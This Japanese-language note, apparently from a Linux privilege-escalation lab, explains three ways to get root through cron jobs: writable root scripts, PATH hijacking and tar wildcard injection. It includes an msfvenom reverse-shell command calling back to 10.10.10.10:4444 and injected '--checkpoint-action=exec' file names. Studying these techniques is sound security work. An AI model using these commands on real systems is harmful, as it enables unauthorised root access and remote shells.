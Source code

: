 ## Cron Jobs - File Permissions
cronジョブはユーザーが特定の時間または間隔で実行するようにスケジュールできるプログラムである。  
cronテーブルファイル(crontabs)は、cronジョブの構成が記載されており、システム全体のcrontabは/etc/crontabにある。
```
cat /etc/crontab
crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```
上記のコマンドにより、スケジュールされたrootで実行されているcronジョブが存在し、現在のユーザー権限で書き込み可能なファイルがある場合、reverse shellペイロードを書き込むことでrootシェルを取得できる。

## Cron Jobs - PATH Environment Variable
crontabのPATH変数が、下記のoverwrite.shのように明示されていない場合、PATH変数に示されているパスに同じ名前のreverse shellファイルなどを配置することで、rootシェルを取得できる。
```
user@debian:~/tools/sudo$ cat /etc/crontab

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
例えば、上記の結果の場合は/home/userディレクトリにreverse shellペイロードを記述したoverwrite.shを配置することでrootシェルを取得できる。

## Cron Jobs - Wildcards
/etc/crontabを確認した結果、下記のスクリプトがスケジュールさていてた場合
```
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
tarコマンドが/home/userディレクトリのファイルをバックアップするために、ワイルドカード(*)を使用して実行されていることに着目する。  
tarについてGTFOBinsを確認すると、tarにはチェックポイント機能の一部として他のコマンドを実行できるコマンドラインオプションがあることを分かる。  
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
上記のバイナリをターゲット端末に転送して、ファイル権限を実行可能にしておく。
```
chmod +x /home/user/shell.elf
```
そして、ワイルドカード(*)で指定されているディレクトリに「--checkpoint=1」「--checkpoint-action=exec=shell.elf」を作成する。  
